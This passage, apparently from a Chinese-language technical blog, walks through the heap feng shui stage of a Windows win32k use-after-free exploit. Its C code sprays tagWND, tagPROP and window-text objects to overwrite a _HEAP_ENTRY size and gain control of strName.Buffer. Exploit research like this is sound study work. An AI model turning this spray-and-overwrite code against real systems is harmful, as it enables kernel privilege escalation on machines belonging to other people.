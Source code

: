 虽然不能直接覆盖 strName.Buffer，但是我们可以拿 _HEAP_ENTRY 开刀，而且 SetPROP 刚好可以完全控制下一个堆块
_HEAP_ENTRY 关键的数据结构，修改它的大小让其包含 tagWND 结构，然后释放掉它再分配一个 tagPROP + tagWND 大小的堆块，
这样我们就可以控制堆块的内容来修改 tagWND。现在调整一下风水布局，和 Ncc Group 的略有不同，用 window text 结构可以任意分配内存大小，
这样更为方便，新的堆布局如下：

![]({{site.baseurl}}/images/2018-11-9/heap_spray5.jpg)

触发 uaf 后 tagSBINFO 位置处会被替换成 tagPROPLIST 结构，然后调用 setPROP 修改相邻 window text 的 _HEAP_ENTRY
将其 size 域覆盖成 sizeof(overlay1) + sizeof(tagWND) + sizeof(_HEAP_ENTRY)，然后释放掉，分配一个 window text
来操作里面的数据。

![]({{site.baseurl}}/images/2018-11-9/heap_spray6.jpg)

现在我们能用任何想要的数据覆盖 strName.Buffer 的指针，虽然 tagWND 的其他数据需要修复，不过这可以从用户空间读取，
桌面堆会映射到用户空间，准备好 tagWND 的全部数据，把 Buffer 指针的值修改成目的地址，然后申请这部分内存。

堆内存的预期布局我们已经设计好，后面就是具体的实施了，一共需要三组 tagWND，先初始化用来占位的一组和用来设置 tagPROP 的一组：

```c
for (int i = 0; i < MAX_OBJECTS; i++)
{
	InitWindow(hInstance, hwndlist1, i);
	SetPropA(hwndlist1[i], (LPCSTR)(1), (HANDLE)0xCCCCCCCCCCCCCCCC);
}

for (int i = 0; i < MAX_SPRAY_OBJECTS; i++)
{
	InitWindow(hInstance, spraywnd, i);
	SetPropA(spraywnd[i], (LPCSTR)(1), (HANDLE)0xCCCCCCCCCCCCCCCC);
}
```

这两组 tagWND 的位置可以不用管，然后我们用第一组 tagWND 也就是 hwndlist1 做两件事，一个是分配 0x30 字节大小的
tagPROP 为同样 0x30 字节大小堆块的 tagSBINFO 占位，

```c
// property list
SetPropA(hwndlist1[i], (LPCSTR)(i + 0x1000), (HANDLE)0xBBBBBBBBBBBBBBBB);
```

另外就是设置 window text 作为合并内存的头尾，在两次 window text 分配的中间就需要插入 tagWND 结构，中间的插入交给第三组
tagWND。

```c
// build first overlay
memset(o1str, '\x43', OVERLAY2_SIZE - _HEAP_BLOCK_SIZE);
RtlInitLargeUnicodeString(&o1lstr, (WCHAR*)o1str, (UINT)-1, OVERLAY1_SIZE - _HEAP_BLOCK_SIZE);

memset(o2str, '\x41', OVERLAY2_SIZE - _HEAP_BLOCK_SIZE);
RtlInitLargeUnicodeString(&o2lstr, (WCHAR*)o2str, (UINT)-1, OVERLAY2_SIZE - _HEAP_BLOCK_SIZE);

SHORT unused_win_index = 0x20;
for (SHORT i = 0; i < MAX_OBJECTS - 0x20; i++)
{
	// property list
	SetPropA(hwndlist1[i], (LPCSTR)(i + 0x1000), (HANDLE)0xBBBBBBBBBBBBBBBB);

	// overlay 1
	if ((i % 0x150) == 0)
		NtUserDefSetText(hwndlist1[MAX_OBJECTS - (unused_win_index--)], &o1lstr);

	InitWindow(hInstance, hwndlist2, i);

	// overlay 2
	if ((i % 0x150) == 0)
		NtUserDefSetText(hwndlist1[MAX_OBJECTS - (unused_win_index--)], &o2lstr);
}
```